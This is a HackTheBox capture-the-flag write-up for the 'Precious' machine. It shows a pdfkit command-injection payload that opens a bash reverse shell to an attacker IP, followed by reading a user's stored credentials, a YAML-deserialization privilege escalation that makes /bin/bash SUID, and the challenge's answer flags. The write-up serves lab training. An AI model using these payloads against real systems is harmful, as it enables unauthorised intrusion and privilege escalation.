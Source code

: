```yaml
---
layout: post
title: Precious
date: 2023-01-17 11:00 +0700
categories: [HTB, easy]
---
```


### Introduction

[Precious] is an easy CTF machine on HackTheBox focused on exploiting a **pdfkit** vulnerability and exploiting a **YAML Deserialization**.


![Precious](/images/HTB/precious/Precious.png)


---

Let's start scaning the machine with nmap.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

We can see there are 2 ports open, 22(ssh) and 80(http).

![scan](/images/HTB/precious/Captura.PNG)

Like we can see, we need to put the machine IP in our **/etc/hosts** file for works.

![web](/images/HTB/precious/Captura2.PNG)

```sh
nano /etc/hosts
or
echo '<IP> precious.htb' >> /etc/hosts
```

![hosts](/images/HTB/precious/Captura3.PNG)

Now we can see a **Web Page to PDF converter** in the site.

![web page](/images/HTB/precious/Captura4.PNG)

Let's open a python server to see if it makes a petition.

```sh
python3 -m http.server 80
```


![python server](/images/HTB/precious/Captura5.PNG)

Like we can see the server make a get petition.

![python server petition](/images/HTB/precious/Captura6.PNG)

Time to see the PDF metadata.

```sh
exiftool <pdf file>
```

Looking It we found some interesting in **Creator** part because It notices to us how it was Generated, and It is generated with **pdfkit**.

![exiftool pdf](/images/HTB/precious/Captura7.PNG)

If we research a little, we can found some interesting things about **pdfkit** version that is vulnerable.

![pdfkit search](/images/HTB/precious/Captura8.PNG)

There is vulnerable a **[Command Injection]** and if We read a little about it, We can make a payload to get a reverse shell with it.

![vuln](/images/HTB/precious/Captura9.PNG)

Time to prepare our listener.

```sh
nc -lvnp <port>
```

![netcat listener](/images/HTB/precious/Captura10.PNG)

And now let's submit the payload in the Web page to get our shell.

```sh
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/<IP>/<Port> 0>&1"`'}
```

![payload](/images/HTB/precious/Captura11.PNG)

If all was correct we will get a shell in the machine.

![netcat listener succ](/images/HTB/precious/Captura12.PNG)

Now is time to look around a little.

We can see an interesting directory called **.bundle**

Inner It we can found the user **henry** credentials.

```sh
cd /home/ruby
ls -la
cd .bundle
ls -la
cat config
```

![henry creds](/images/HTB/precious/Captura13.PNG)

Time to connect to the machine with the credentials.  

```sh
ssh henry@precious.htb
```

![ssh](/images/HTB/precious/Captura14.PNG)

Once in the machine, We can see the user flag.

```sh
ls -la
cat user.txt
```

![user flag](/images/HTB/precious/Captura15.PNG)

- User Flag
>Answer: b8d291368e14d422c8be561a8ba66408

Time to elevate our privileges!

If we look **sudo -l** we can run like root with no password the **ruby update_dependencies**.

```sh
sudo -l
```

![sudo -l](/images/HTB/precious/Captura16.PNG)

Looking the file, We can see that in a part read **dependencies.yml**.

```sh
cat /opt/update_dependencies.rb
```

So we can take advantage of this!

![cat update](/images/HTB/precious/Captura17.PNG)

Let's create a file with this [example] to abuse these permissions.

```sh
nano dependencies.yml
```

What We're going to do is change the /bin/bash permissions to make it SUID binary and get a root shell.

![file dependencies](/images/HTB/precious/Captura18.PNG)

Let's execute it.

```sh
sudo ruby /opt/update_dependencies.rb
```

![execute update](/images/HTB/precious/Captura19.PNG)

If all worked correctly, the binary now is SUID, and We can execute it and get our privilege escalation.

```sh
ls -l /bin/bash
```

![/bin/bash perms](/images/HTB/precious/Captura20.PNG)

It worked well so It's time to execute it.

```sh
bash -p
id
```

![user to root](/images/HTB/precious/Captura21.PNG)

Now We're root and can see the root flag.

```sh
cd /root/
cat root.txt
```

![root flag](/images/HTB/precious/Captura22.PNG)

- Root Flag
>Answer: c3568e870b4ae231b9c774efcb5c4c88

[precious]:https://app.hackthebox.com/machines/513
[Command Injection]:https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
[example]:https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
